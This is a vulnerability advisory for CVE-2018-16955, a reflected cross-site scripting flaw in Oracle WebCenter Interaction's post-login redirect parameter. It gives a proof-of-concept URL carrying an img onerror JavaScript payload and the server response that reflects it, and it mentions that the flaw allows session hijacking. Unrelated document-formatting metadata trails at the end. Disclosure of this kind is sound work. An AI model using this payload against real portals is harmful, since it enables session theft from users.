

# Oracle WebCenter Interaction - Redirection Cross-site Scripting

**CVE:** CVE-2018-16955

**CVSSv3:** 5.4 - CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N

**Versions affected:** 10.3.3

## Introduction

Oracle WebCenter Interaction, formerly called BEA AquaLogic User Interaction and now part of Oracle WebCenter Suite, is an integrated, comprehensive collection of components used to create enterprise portals, collaborative communities, and composite and social applications.

## Background

The Oracle WebCenter Interaction (WCI) portal is the primary interface to the suite of services provided by WCI. The portal provides a default database-backed authentication system and can be extended to use remote directory services such as LDAP and Active Directory.

## Vulnerability

The redirection function that follows successful authentication to the portal varies its redirection technique depending on the scheme of the URL specified in the `in_hi_redirect` parameter.

When the URL scheme is `https://`, the HTTP response from the portal is `200 OK` and a `<META>` HTML tag is used to perform the redirect. Otherwise the response is a HTTP 302 with a `Location` header.

The URL specified in the `in_hi_redirect` parameter is reflected verbatim into the `<META>` tag when the scheme is `https://`. Consequently, an attacker can follow the parameter value with HTML and JavaScript code to have it execute in the browser immediately before the redirect is processed.

An attacker can craft a URL to the portal, as shown below, to contain JavaScript code in the `in_hi_redirect` parameter.

```
http://<HOST>/portal/server.pt?in_hi_space=Login&in_hi_spaceID=&in_hi_control=Login&in_hi_redirect=https://foo.com%22%3E%3Cimg%20src=x%20onerror=alert(1)%3E
```

When the URL is visited and the user logs into the portal, the redirection response reflects the injected JavaScript it its response.

```
HTTP/1.1 200 OK
Cache-Control: no-store, no-cache, must-revalidate, max-age=0, post-check=0, pre-check=0
Pragma: no-cache
Content-Length: 326
Content-Type: text/html; charset=utf-8
Content-Language: en
Expires: 1529918852246
Last-Modified: 1530005252246
Server: Microsoft-IIS/7.5
X-AspNet-Version: 2.0.50727
Set-Cookie: ASP.NET_SessionId=gwfqfergtnwyk4n3yk32ncba; path=/
Set-Cookie: plloginoccured=true; path=/; HttpOnly
X-Powered-By: ASP.NET
Date: Tue, 26 Jun 2018 09:27:32 GMT
Connection: close

<html><head><meta HTTP-EQUIV="REFRESH" CONTENT="0; URL=https://foo.com">"></head></html><!--Hostname: WCISRV--><!--Total Request Time: 16
Control Time: 16
Page Construction Time: -1
Page Display Time: 0
```

The JavaScript and HTML code then execute in the user's browser shortly before the redirection occurs (shown in Figure 1 below).



Because the execution occurs at the time the browser cookie is set, a cross-site scripting attack can be used to hijack a user's session. This occurs because the WCI portal requires the session cookie (ASP.NET_SessionId) to be accessible in JavaScript (CVE-2018-16958).

## Versions Affected

This vulnerability affects version 10.3.3 of the Oracle WebCenter Interaction portal - specifically build 10.3.3.379633 (the latest version at the time of writing).

## References

N/A

## Credit

This vulnerability was discovered by Ben N (pajexali@gmail.com) 26 June 2018.

---
mainfont: Roboto
monofont: Source Code Pro
header-includes:
    - \lstset{breaklines=true}
    - \lstset{language=[Motorola68k]Assembler}
    - \lstset{basicstyle=\small\ttfamily}
    - \lstset{extendedchars=true}
    - \lstset{tabsize=2}
    - \lstset{columns=fixed}
    - \lstset{showstringspaces=false}
    - \lstset{frame=trbl}
    - \lstset{frameround=tttt}
    - \lstset{framesep=4pt}
    - \lstset{numbers=left}
    - \lstset{numberstyle=\tiny\ttfamily}
    - \lstset{postbreak=\raisebox{0ex}[0ex][0ex]{\ensuremath{\color{red}\hookrightarrow\space}}}
...